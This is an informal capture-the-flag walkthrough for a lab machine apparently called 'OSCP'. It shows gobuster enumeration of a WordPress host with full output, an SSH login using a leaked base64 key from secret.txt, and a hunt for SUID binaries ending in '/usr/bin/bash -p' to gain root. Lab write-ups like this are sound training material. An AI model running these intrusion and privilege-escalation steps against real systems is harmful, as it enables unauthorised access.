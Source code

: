 This machine have three steps
1 search on nmap 


2 dirbuster (php,txt,html)
```
sudo gobuster dir -u 192.168.1.102 -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
```


```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.102
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2023/07/22 18:09:20 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/.hta.html            (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.1.102/javascript/]
/index.php            (Status: 301) [Size: 0] [--> http://192.168.1.102/]
/index.php            (Status: 301) [Size: 0] [--> http://192.168.1.102/]
/license.txt          (Status: 200) [Size: 19915]
/readme.html          (Status: 200) [Size: 7278]
/robots.txt           (Status: 200) [Size: 36]
/robots.txt           (Status: 200) [Size: 36]
/secret.txt           (Status: 200) [Size: 3502]
/server-status        (Status: 403) [Size: 278]
/wp-admin             (Status: 301) [Size: 317] [--> http://192.168.1.102/wp-admin/]
/wp-content           (Status: 301) [Size: 319] [--> http://192.168.1.102/wp-content/]
/wp-includes          (Status: 301) [Size: 320] [--> http://192.168.1.102/wp-includes/]
/wp-settings.php      (Status: 500) [Size: 0]
/wp-links-opml.php    (Status: 200) [Size: 227]
/wp-cron.php          (Status: 200) [Size: 0]
/wp-load.php          (Status: 200) [Size: 0]
/wp-config.php        (Status: 200) [Size: 0]
/wp-mail.php          (Status: 403) [Size: 2709]
/wp-login.php         (Status: 200) [Size: 4812]
/wp-blog-header.php   (Status: 200) [Size: 0]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://192.168.1.102/wp-login.php?action=register]
/xmlrpc.php           (Status: 405) [Size: 42]

/xmlrpc.php           (Status: 405) [Size: 42]
===============================================================
2023/07/22 18:09:29 Finished
===============================================================

```



3 in the robots.txt search the secret.txt (is in base64)


and then save the key in an arcgive caled key.rsa   (the key is on )
ssh    oscp@(ip) -i key.rsa 

4 important thing is  to find "suids"

find / -perm 4000 -user root -type f -print >> suid.txt
find / -perm 4000 -user root -type f  >> suid.txt
cat suid.txt
/usr/bin/bash -p
(sometimes sudo -l sometimes you get some things really easy)
(noom and lean some scripts that tipically sometimes you did)

